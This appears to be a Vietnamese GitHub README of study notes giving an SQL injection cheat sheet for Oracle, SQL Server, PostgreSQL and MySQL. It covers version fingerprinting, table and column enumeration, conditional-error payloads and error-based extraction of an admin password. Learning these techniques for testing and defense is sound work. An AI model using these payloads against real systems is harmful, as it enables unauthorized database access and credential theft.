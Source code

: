 - xác định loại và phiên bản của hệ quản trị database đang xài<br>
1. Oracle<br>
- SELECT banner FROM v$version;
- SELECT version FROM v$instance;<br>
2. Microsoft SQL Server<br>
- SELECT @@version;<br>
3. PostgreSQL<br>
- SELECT version();<br>
4. MySQL<br>
- SELECT @@version;<br>

V. Database contents<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/1892af28-2eec-4be2-b58a-ca20facaf554)<br>

- liệt kê các bảng và cột trong databse <br>
1. Oracle<br>
- Liệt kê tất cả các bảng có trong cơ sở dữ liệu: SELECT * FROM all_tables;
- Xem các cột của bảng "products": SELECT * FROM all_tab_columns WHERE table_name = 'products';<br>
2. Microsoft SQL Server<br>
- Liệt kê tất cả các bảng có trong cơ sở dữ liệu: SELECT * FROM information_schema.tables;
- Xem các cột của bảng "products": SELECT * FROM information_schema.columns WHERE table_name = 'products';<br>
3. PostgreSQL<br>
- Liệt kê tất cả các bảng có trong cơ sở dữ liệu: SELECT * FROM information_schema.tables;
- Xem các cột của bảng "products": SELECT * FROM information_schema.columns WHERE table_name = 'products';<br>
4. MySQL<br>
- Liệt kê tất cả các bảng có trong cơ sở dữ liệu: SELECT * FROM information_schema.tables;
- Xem các cột của bảng "products": SELECT * FROM information_schema.columns WHERE table_name = 'products';<br>

VI. Conditional errors<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/4da157cb-6f07-4bb7-82ad-a8410161caf4)<br>

- check 1 đk bool và kích hoạt lỗi database nếu đk đó đúng
- Giả sử bạn muốn tạo lỗi nếu giá trị của cột age lớn hơn 100.
1. Oracle<br>
- SELECT CASE WHEN (age > 100) THEN TO_CHAR(1/0) ELSE NULL END FROM dual;<br>
2. Microsoft SQL Server<br>
- SELECT CASE WHEN (age > 100) THEN 1/0 ELSE NULL END;<br>
3. PostgreSQL<br>
- 1 = (SELECT CASE WHEN (age > 100) THEN 1/(SELECT 0) ELSE NULL END);<br>
4. MySQL<br>
- SELECT IF(age > 100, (SELECT table_name FROM information_schema.tables), 'a');<br>

VII. Extracting data via visible error messages<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/8afa5dab-25c4-4ea3-bc56-cd091d21a23e)<br>

- khai thác data qua thông báo lỗi<br>
1. Microsoft SQL Server<br>
- SELECT 'foo' WHERE 1 = (SELECT password FROM users WHERE username = 'admin');<br>
2. PostgreSQL<br>
- SELECT CAST((SELECT password FROM users WHERE username = 'admin') AS int);<br>
3. MySQL<br>
- SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT password FROM users WHERE username = 'admin')));<br>
